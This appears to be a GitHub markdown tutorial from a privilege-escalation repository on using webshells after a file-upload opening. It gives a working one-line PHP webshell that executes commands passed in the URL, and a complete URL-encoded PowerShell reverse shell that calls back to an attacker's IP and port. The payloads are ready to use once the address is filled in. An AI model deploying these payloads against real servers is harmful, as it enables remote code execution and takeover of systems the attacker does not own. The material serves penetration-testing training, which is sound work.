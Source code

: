 <h1>$${\color{red}WebShells}$$</h1>

There are times when we encounter websites that allow us an opportunity to upload, in some way or another, an executable file. Ideally we would use this opportunity to upload code that would activate a reverse or bind shell, but sometimes this is not possible. In these cases we would instead upload a webshell. 

***

"Webshell" is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server. Essentially, commands are entered into a webpage -- either through a HTML form, or directly as arguments in the URL -- which are then executed by the script, with the results returned and written to the page. This can be extremely useful if there are firewalls in place, or even just as a stepping stone into a fully fledged reverse or bind shell.

> As PHP is still the most common server side scripting language, let's have a look at some simple code for this.

In a very basic one line format:

```
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

<br>

This will take a GET parameter in the URL and execute it on the system with ```shell_exec()``` . Essentially, what this means is that any commands we enter in the URL after ```?cmd=``` will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.

Let's see this in action:

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/ba873483-f499-44a7-90d4-22a0cbf25ab7">
</p>

*************


- Notice that when navigating the shell, we used a GET parameter "cmd" with the command "ifconfig", which correctly returned the network information of the box. In other words, by entering the ```ifconfig``` command (used to check the network interfaces on a Linux target) into the URL of our shell, it was executed on the system, with the results returned to us. This would work for any other command we chose to use (e.g. ```whoami``` , ```hostname``` , ```arch``` , etc).

As mentioned previously, there are a variety of webshells available on Kali by default at ```/usr/share/webshells``` -- including the infamous PentestMonkey php-reverse-shell -- a full reverse shell written in PHP. Note that most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers. They will not work on Windows by default.

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the ```cmd``` argument:


```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```


> Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code.

<br>

******
if this content liked you, follow me [Here](https://github.com/4bo4yman) ;) :tada:
*****
